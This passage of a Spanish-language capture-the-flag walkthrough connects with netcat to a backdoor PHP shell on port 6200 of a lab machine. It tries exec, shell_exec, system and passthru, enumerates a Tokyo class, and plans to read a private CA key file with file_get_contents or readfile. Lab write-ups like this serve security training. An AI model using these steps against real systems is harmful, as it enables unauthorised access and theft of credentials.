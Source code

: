 se queda bloqueado, podemos cerrar la ventana y con nc intentamos nuevamente la coneccion al puerto 6200.

```bash
nc 10.10.10.131 6200
```

Intentamos enviar commandos

```bash
whoami
#Error PHP Warning: Use of undefined constant whoami - assumed 'whoami' (this will throw an Error in a future version of PHP)
```

Intentamos commandos **PHP**

```bash
exec("whoami")
#error
shell_exec("whoami")
#error
passthru("whoami")
#error
system("whoami")
#error
help
#Output
help
ls
dump
doc
show
wtf
...
```

Vemos cosas intentamos con **ls** ver las variables classes funcciones y mas

```bash
ls
#Output
$tokyo
```

Miramos el contenido con show

```bash
show $tokyo
#output
class Tokyo {
    private function sign($caCert, $userCsr){
        ...
    }
}
```

Aqui vemos la class Tokyo con su funccion private. Podemos ver que en el directorio `/home/nairobi/ca.key` hay una key. Como este servicio
esta en php, miramos si podemos listar contenido de ficheros con las fucciones php `file_get_contents()`, `scandir()` o `readfile()`
